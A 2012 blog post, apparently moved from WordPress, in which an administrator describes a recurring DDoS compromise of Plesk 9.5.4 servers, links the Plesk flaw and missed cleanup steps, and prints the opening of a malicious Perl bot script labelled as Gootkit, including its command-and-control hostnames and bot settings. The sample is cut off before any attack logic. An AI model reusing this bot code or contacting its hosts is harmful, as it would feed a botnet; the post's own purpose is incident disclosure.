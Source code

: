 ```yaml
---
layout: post
status: publish
published: true
title: DDOS Issues - More!
author: Matt Clements
author_login: admin
author_email: matt@mattclements.co.uk
author_url: http://www.mattclements.co.uk/
wordpress_id: 219
wordpress_url: http://www.mattclements.co.uk/?p=219
date: 2012-03-07 22:41:49.000000000 +00:00
---
```

And to tie up with my last post, the issue then came back... So rather than sitting with black text on a white page and trying to work out what was happening, I did some digging. I knew the following:
<ul>
	<li>Plesk 9.5.4</li>
	<li>Debian and Ubuntu (latest versions)</li>
	<li>SSH &amp; FTP had not been logged into to upload the files</li>
	<li>I had patched after the first issue to the latest Micro Update from Plesk</li>
</ul>
I came across the following:

<a href="http://forum.parallels.com/showthread.php?t=257628" target="_blank">http://forum.parallels.com/showthread.php?t=257628</a>

&nbsp;

By searching for some of the content within the found Perl scripts (below)

So it turned out to be an issue with Plesk, which had been patched by the latest Micro Update, but I missed some minor steps such as the apachectrl2.lock.* files which were owned by the user who had started the second attacks (note that those users that had not created these files on the first attack had not re-attacked).

&nbsp;

Perl script as follows:
<pre class="language-perl"><code>#!/usr/bin/perl

#part of the Gootkit ddos system
use Fcntl qw(:flock :DEFAULT);	

use Socket;
use IO::Socket;
use IO::Select;

use POSIX 'setsid';
use Cwd 'abs_path';

print "Content-type: text/plain\n\n";

#---------------------------------------------------#
#	CUSTOM parameters								#
#---------------------------------------------------#
my $number_of_bots = 5;
my @defaults = ("callebook.com:80", "cellulareebook.com:80", "whitewithstand.com:80");
my $pingTimeout = 1200;
my $proxyPort = 5432;
#---------------------------------------------------#
